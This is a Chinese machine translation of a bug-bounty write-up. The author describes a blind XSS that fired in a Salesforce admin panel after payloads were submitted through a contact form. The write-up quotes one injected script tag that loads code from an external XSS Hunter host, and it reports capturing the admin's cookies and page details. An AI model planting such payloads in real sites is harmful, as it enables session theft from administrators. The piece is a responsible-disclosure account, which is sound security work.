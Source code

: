 # 我是如何泄露你的会话令牌的——redacted.com 管理面板上盲人 XSS 的故事

> 原文：<https://infosecwriteups.com/how-i-was-able-to-leak-your-session-token-a-story-of-blind-xss-in-an-admin-panel-at-redacted-com-ed7868b5b733?source=collection_archive---------3----------------------->

在提交我在一个程序上发现的一个关键的服务器端请求伪造漏洞的报告两天后，我醒来时收到一封电子邮件提醒我，我的 XSS 猎人有效载荷在目标的一个子域上被触发了。

盲 XSS 漏洞是持久 XSS 漏洞的变种。当攻击者的输入被服务器保存并显示在应用程序的另一部分或另一个应用程序中时，就会发生这种情况。例如，攻击者向联系/反馈页面中注入恶意有效载荷，当应用程序的管理员查看反馈条目时，攻击者的有效载荷将被加载。攻击者的输入可以在完全不同的应用程序中执行(例如，管理员查看访问日志或应用程序异常的内部应用程序)。参考这里:[https://www . e-spin corp . com/documentation/blind-cross-site-scripting-XSS-attack-vulnerability-alert-and-solution/](https://www.e-spincorp.com/documentation/blind-cross-site-scripting-xss-attack-vulnerability-alert-and-solution/)

事情就是这样发生的。当我前一天浏览应用程序时，我看到了一个联系页面，目标用它来从网站访问者那里获取某些细节。很自然地，在每个文本字段中输入我的盲人 XSS 有效载荷，然后提交表单。这包括名、姓、组织和描述字段。做完这些后，我就睡了一夜，并没有真正期待任何积极的结果，因为我之前寻找盲人 XSS 的尝试至今没有产生任何积极的结果。

第二天早上，我醒来，吃了早餐，检查了我的电子邮件，发现一个来自 XSS·亨特的通知，表明我的有效载荷在后端 salesforce 面板中被解雇了。

![](img/1fdd8a2d040fa07fbc01b93a3b03eacf.png)

Xss 向 https://redacted.target.com/开火

我很幸运！通读 html 报告显示了一个 DOM 元素，其中反映了我的有效负载。

```
<script src="/jslibrary/1581015810224/sfdc/Security.js"></script><;</script><script src="[https://xvt.xss.ht/](https://xvt.xss.ht/)"></script></head><body onunload="if(this.bodyOnUnload)bodyOnUnload();" onbeforeunload="if(this.bodyOnBeforeUnload){var s=bodyOnBeforeUnload();if(s)return s;}" onload="if(this.bodyOnLoad)bodyOnLoad();" class="hasMotif leadTab  apexPageInline sfdcBody brandQuaternaryBgr  ext-webkit ext-chrome ext-mac" onfocus="if(this.bodyOnFocus)bodyOnFocus();" marginwidth="0" marginheight="0"> 
```

该报告还捕获了易受攻击的页面 URL、用户 IP 地址、推荐代理、管理员用户的 Cookies 以及用于管理目标用户邮件列表的 MailChimp 界面的屏幕截图。这些电子邮件的标题表明，其中一些列表用于公司内部活动。

![](img/3dae3b4a70166670d4ebfbb18296128a.png)

XSS·亨特的通知

![](img/9721cdabf5e9985192b799cc08cf6aad.png)

不用说，该漏洞可能允许恶意用户从管理面板泄漏敏感的 PII，并可能允许她/他窃取管理员的会话令牌，从而代表管理员访问应用程序。

该 bug 已被诊断，严重性设置为高。

希望你觉得这篇文章有用。欢迎任何意见或其他形式的反馈。祝好运，狩猎愉快！